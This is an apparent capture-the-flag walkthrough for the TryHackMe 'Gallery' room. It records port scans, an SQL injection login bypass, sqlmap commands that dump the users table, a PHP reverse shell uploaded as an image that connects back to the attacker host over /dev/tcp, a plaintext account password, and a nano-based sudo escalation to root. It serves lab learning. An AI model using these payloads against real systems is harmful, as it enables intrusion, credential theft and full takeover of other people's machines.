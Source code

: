 # Gallery

**Room Link:** [https://tryhackme.com/room/gallery666](https://tryhackme.com/room/gallery666)



### Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (215).png" alt=""><figcaption></figcaption></figure>



### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/80 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (224).png" alt=""><figcaption></figcaption></figure>



### TCP/8080 - HTTP

**Kali**

```
gobuster dir -u http://$VICTIM:8080 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt --wildcard
```







### TCP/80 - HTTP

<figure><img src="../../.gitbook/assets/image (216).png" alt=""><figcaption></figcaption></figure>

## SQL Injection

SQL injection worked on username field

```
Username: 1' or '1'='1'-- -
Password: anything
```

<figure><img src="../../.gitbook/assets/image (217).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (218).png" alt=""><figcaption></figcaption></figure>

We found two databases

**Kali**

```
sudo sqlmap -r request.req --dbs
```

<figure><img src="../../.gitbook/assets/image (219).png" alt=""><figcaption></figcaption></figure>

Get tables

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables
```

<figure><img src="../../.gitbook/assets/image (220).png" alt=""><figcaption></figcaption></figure>

Get fields for table users

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users --columns
```



<figure><img src="../../.gitbook/assets/image (221).png" alt=""><figcaption></figcaption></figure>

Get values of the username and password fields. I couldn't crack the hash.

**Kali**

```
sudo sqlmap -r request.req --current-db gallery_db --tables -T users  -C username,password --dump
```

<figure><img src="../../.gitbook/assets/image (222).png" alt=""><figcaption></figcaption></figure>

## Initial Shell

I was able to upload a php reverse shell instead of an image

**Kali**

```
nc -lvnp 443
```

**revshell.php code**

```
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/$KALI/443 0>&1'");
?>
```



<figure><img src="../../.gitbook/assets/image (223).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

<pre><code><strong>python3 -c 'import pty; pty.spawn("/bin/bash")'
</strong>ctrl + Z
stty raw -echo;fg
</code></pre>

<figure><img src="../../.gitbook/assets/image (225).png" alt=""><figcaption></figcaption></figure>

We found a list of passwords from mike in a file called accounts and another password in history

<figure><img src="../../.gitbook/assets/image (226).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (227).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
su mike
Password: b3stpassw0rdbr0xx
```

<figure><img src="../../.gitbook/assets/image (228).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation&#x20;

**Exploit:** [https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/)

mike is able to run a script with NOPASSWD, looking at the script it, there are a few options to select. One option is to run nano which we can use to get sudo. I also noticed my terminal would not open nano so I exported xterm

**Victim**

```
sudo -l
export TERM="xterm"
```

<figure><img src="../../.gitbook/assets/image (231).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (232).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
sudo /bin/bash /opt/rootkit.sh
^R^X
reset; sh 1>&0 2>&0
```

<figure><img src="../../.gitbook/assets/image (229).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (230).png" alt=""><figcaption></figcaption></figure>

